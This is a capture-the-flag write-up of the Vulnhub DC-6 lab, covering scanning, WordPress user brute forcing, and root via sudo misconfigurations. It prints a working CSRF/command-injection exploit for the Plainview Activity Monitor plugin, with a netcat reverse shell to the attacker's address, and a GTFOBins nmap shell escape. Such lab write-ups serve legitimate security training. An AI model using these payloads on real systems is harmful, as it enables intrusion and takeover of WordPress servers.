 ```yaml
---
"title": "Vulnhub - DC 6"
"date": 2019-11-21
"tags": ["easy", "wordpress", "sudo"]
"keywords": ["easy", "wordpress", "sudo"]
"categories": "Vulnhub"
"author": "Ghostbyt3"
"description": "Today, We are going to pwn DC 6 by DCAU7 from Vulnhub"
"featured_image": "/img/dc6/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Vulnhub - Writeup"
---
```



![Untitled](/img/dc6/1.png)[br/](br/)
Today, We are going to pwn DC 6 by DCAU7 from Vulnhub


## Description

>DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
This isn't an overly difficult challenge so should be great for beginners.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer,instead, I'll give you an idea about how  to move forward.

Download Link:[https://www.vulnhub.com/entry/dc-6,315/](https://www.vulnhub.com/entry/dc-6,315/)


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
MAC Address: 08:00:27:45:90:BE (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.11
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/28 17:29:09 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.php (Status: 200)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
===============================================================
2019/11/28 17:29:11 Finished
===============================================================
```
Nothing Interesting

![Untitled](/img/dc6/1.png)[br/](br/)
Since it is a wordpress site , Lets run ``Wpscan`` to enumerate any user or find any vulnerable plugins.

![Untitled](/img/dc6/2.png)

We found 5 users 
> admin,jens,graham,mark,sarah
Lets start bruteforcing them.

But the creator give us a hint 
![Untitled](/img/dc6/3.png)

Now we can bruteforce easily![br/](br/)
![Untitled](/img/dc6/4.png)
![Untitled](/img/dc6/5.png)

We got password for mark ``helpdesk01``

## Getting Shell

After Logged in
One thing i observerd is Activity monitor. It looks like a Plugin so it might have an exploit.
![Untitled](/img/dc6/6.png)

>https://www.exploit-db.com/exploits/45274

Yeah Found it!!

First things first, I decided to check the exploit and configure it (if required).

I changed some 
```
1. http://localhost:8000 to http://wordy
2. Removed -lnvp I want to listen on my machine.
```

```
[html](html)
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  [body](body)
  [script](script)history.pushState('', '', '/')[/script](/script)
    [form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data"](form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data")
      [input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" /](input type="hidden" name="ip" value="google.fr| nc -e /bin/bash 10.0.2.18 9999" /)
      [input type="hidden" name="lookup" value="Lookup" /](input type="hidden" name="lookup" value="Lookup" /)
      [input type="submit" value="Submit request" /](input type="submit" value="Submit request" /)
    [/form](/form)
  [/body](/body)
[/html](/html)
```

Saved it and Open that ``.html`` and listening on my machine.
We got the shell


![Untitled](/img/dc6/7.png)


![Untitled](/img/dc6/8.png)

Found ``graham`` password on mark's directory

![Untitled](/img/dc6/9.png)

Logged in as ``graham``

## Privilege Escalation

While enumerating i found a ``backup.sh`` on ``jens`` directory.

But i cant execute it.
I checked ``sudo -l`` on ``graham``

![Untitled](/img/dc6/10.png)

This means we can run with sudo rights, we also have write permission on that file.
So I replaced with giving us shell.

![Untitled](/img/dc6/11.png)

And Run the script
We became ``jens`` now and run ``sudo -l``

![Untitled](/img/dc6/12.png)

It looks like we can run ``nmap`` with sudo rights.

I searched on ``GTFObins``

> [https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

```
echo 'os.execute("/bin/sh")' > $TF

nmap --script=$TF
```

We created our nmap script and make it run to give us root.

![Untitled](/img/dc6/13.png)

We got the ``Flag`` and Root !!
